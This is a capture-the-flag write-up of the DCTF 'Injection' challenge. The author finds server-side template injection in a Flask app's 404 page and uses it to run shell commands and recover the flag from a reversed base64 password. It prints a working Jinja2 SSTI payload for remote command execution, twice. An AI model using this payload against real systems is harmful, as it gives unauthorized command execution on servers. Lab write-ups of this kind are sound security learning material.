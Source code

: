 # Injection

http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/

![[Pasted image 20210516170501.png]]

There is an admin login with the parameters "User", "Password" and a hidden "Submit".

Inputting anything into these won't work, and we'll be redirected to `/login` where we get the message:

`Oops! Page login doesn't exist :(`

I really didn't know how to work this one out. I tried looking at the robots.txt, other known directories, the root directory where the image is stored, but nothing.

Eventually, I figured the website was responding to anything that I was throwing at it through the 404 response page, even xss:

![[Pasted image 20210516170833.png]]

But eh, couldn't figure it out for a while. I initially thought it was SQLi, and was put off by it because I know barely any SQLi.

After googling a bit more I found some CTF writeups that had something similar, and eventually landed on the `SSTI` keyword...

Stupidly enough I had already read about SSTIs prior to this, but I couldn't make the connection earlier.

# Solution
So we try:
`http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{1+1}}` 
and we get

`Oops! Page 2 doesn't exist :(`

Nice.

`{{config}}` gives us a bunch of data, among it:

` 'MESSAGE': 'You are getting closer!`

After that it becomes trivial, and we just have to find a way to get terminal access. We eventually land on:

`{{''.__class__.__mro__[1].__subclasses__()[414]('COMMAND',shell=True,stdout=-1).communicate()}}` << where COMMAND is our command.

Running `ls`:
`app.py
lib
static
templates`

Running `ls lib`:
`security.py`

Running `cat lib/security.py`

`import base64


def validate_login(username, password):
 if username != 'admin':
 return False
 valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ'
 return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password`
 
 So we just get the password encoded in a backwards b64, just flip it and decode it:
 
```
base64.b64decode(password[::-1]+"==")
b'dctf{4ll_us3r_1nput_1s_3v1l}'
```

And we get the flag :D

# Notes:

Sometimes, the environment will be vary a lot. Most of the payloads I tried that I found online wouldn't work, so I had to craft my own. To make it, I used this medium article that was AMAZING:

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


#----------
`{{''.__class__.__mro__[1].__subclasses__()[414]('COMMAND',shell=True,stdout=-1).communicate()}}`